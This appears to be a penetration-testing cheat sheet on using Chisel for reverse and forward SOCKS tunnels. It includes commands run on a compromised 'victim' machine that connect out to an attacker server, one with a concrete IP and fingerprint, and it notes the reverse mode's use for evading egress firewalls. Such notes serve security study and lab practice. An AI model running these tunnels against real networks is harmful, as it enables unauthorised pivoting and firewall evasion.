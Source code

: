 Chisel
---
# Reverse SOCKS Proxy (Attacker -> Server, Victim -> Client)
---
- Client connects with server
- **Client makes decisions and initiates connection**
- ==Good for **evading egress firewalls** and when **victim can reach the attacker**.==
- On Attacker machine:
	- `chisel server --socks5 --reverse -p <port_number>`
- On Victim machine:
	- `./chisel client --fingerprint <fingerprint_from_server_node> <ip_address>:<server_port> R:socks`
	- `.\chisel_windows.exe client --fingerprint gBlVNGJ8Ki/TR5iAy1+4OAvf8cN8MV+qQV7IVhzT+jA= 10.10.16.34:8080 R:socks`
 - Foxyproxy setup: (**1080 is default proxy port for reverse connections**)
 - Editing & Confirming proxychains.conf:
	 - `socks5 127.0.0.1 1080`
	 - Port 1080 is default for chisel
	
# Forward SOCKS Proxy (Victim -> Server, Attacker -> Client)
---
- Good when **==victim cannot reach attacker but attacker can==**.
- On Attacker machine:
	- `chisel client <compromised_ip>:<port_on_compromised_ip> <local_port_for_proxy>:socks`
- On Victim machine:
	- `chisel server -p <port_to_open> --socks5`
-  Editing & Confirming proxychains.conf:
	 - `socks5 127.0.0.1 1080`
	 - Port 1080 is default for chisel

- For browser interaction: **proxy by patterns**
- For commands use : **proxychains command**
